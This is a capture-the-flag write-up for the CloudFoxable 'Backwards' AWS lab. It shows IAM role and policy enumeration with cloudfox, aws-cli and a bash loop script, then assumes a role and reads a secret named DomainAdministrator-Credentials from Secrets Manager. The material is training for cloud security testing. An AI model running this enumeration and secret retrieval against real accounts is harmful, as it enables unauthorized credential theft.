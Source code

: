 # CloudFoxable - Backwards

Challenge link: https://cloudfoxable.bishopfox.com/challenges#Backwards-9

![](images/backwards-description.png)

## Using cloudfox

Because we don't know what role will interact with that resource of starting point, we just need to list all policy and grep:

```
cloudfox aws -p cloudfoxable permissions | grep secret
```

![](images/backwards-cloudfox-permissions-grep.png)

Ahha we know there is a role called **`Alexander-Arnold`** which allow action **`secretsmanager:GetSecretValue`** on resource as described on starting point. Let's add our new profile to config so we can use then:

```
[profile arnold]
region = us-west-2
role_arn = arn:aws:iam::211125736697:role/Alexander-Arnold
source_profile = cloudfoxable
```

![](images/backwards-add-role-config.png)

Now let's read the secret with secret id is that arn value (you can take name too) and with profile **`arnold`** we have just added:

```
aws --profile arnold secretsmanager get-secret-value --secret-id arn:aws:secretsmanager:us-west-2:211125736697:secret:DomainAdministrator-Credentials-iPf3PT
```

![](images/backwards-cloudfox-get-flag.png)

## Using aws-cli

This challenge doesn't give us IAM Role but something seems like a resource, our job is to find out which role interact with this resource. First, we need to list all role that this account has:

```
aws --profile cloudfoxable iam list-roles
```

With each role listed, we will need to check policy of each role:

```
aws --profile cloudfoxable iam list-attached-role-policies --role-name <ROLE_NAME>
```

Each policy has its arn, and with each policy we will need to get version then action and resource of policy:

```
aws --profile cloudfoxable iam get-policy --policy-arn <POLICY_ARN>
aws --profile cloudfoxable iam get-policy-version --policy-arn <POLICY_ARN> --version-id <VERSION_ID>
```

Phew, that seems too much work to do. So I decided to write a small script to loop all policy and list the resource of policy:

```bash
#!/bin/bash

roles=`aws --profile cloudfoxable iam list-roles`
res=`echo $roles | jq .[][1].RoleName`

for i in $(seq 0 $((`echo $roles | jq .[] | jq length`-1)))
do
    role_name=`echo $roles | jq -r .[][$i].RoleName`
    echo "[*] Role: $role_name"

    policies=$(aws --profile cloudfoxable iam list-attached-role-policies --role-name $role_name)
    for j in $(seq 0 $((`echo $policies | jq .AttachedPolicies | jq length`-1)))
    do
        policy_name=`echo $policies | jq -r .AttachedPolicies[$j].PolicyName`
        policy_arn=`echo $policies | jq -r .AttachedPolicies[$j].PolicyArn`
        policy_version=`aws --profile cloudfoxable iam get-policy --policy-arn $policy_arn | jq -r .Policy.DefaultVersionId`
        policy_statement=`aws --profile cloudfoxable iam get-policy-version --policy-arn $policy_arn --version-id $policy_version | jq -r .PolicyVersion.Document.Statement`
        echo "    - Name: $policy_name"
        echo "    - Arn: $policy_arn"
        echo "    - Version: $policy_version"
        echo "    - Statement: "
        echo $policy_statement
        echo -------------------------
    done
    sleep 1
done
```

With the second role **`Alexander-Arnold`**, we can see the resource that is similar to resource of starting point in the description:

![](images/backwards-list-all-policies-resources.png)

So we know that role might have something interesting. Let's add that role to config file so we can use later:

![](images/backwards-add-role-config.png)

With the resource we found about **`Alexander-Arnold`**, look at **`Action`**, we can see that we can **`GetSecretValue`** of **`secretmanager`** so let's list all secret we have:

```
$ aws --profile cloudfoxable secretsmanager list-secrets
```

![](images/backwards-aws-cli-secretsmanager-list-secrets.png)

This arn is similar to the arn we got from role **`Alexander-Arnold`** so this is the secret we want! Let's read this newly profile `arnold` we have just added:

```
aws --profile arnold secretsmanager get-secret-value --secret-id DomainAdministrator-Credentials
```

![](images/backwards-aws-cli-get-flag.png)

# Reference

https://medium.com/@cybersecshashi/cloudfoxable-backwards-2fc6d6088bb7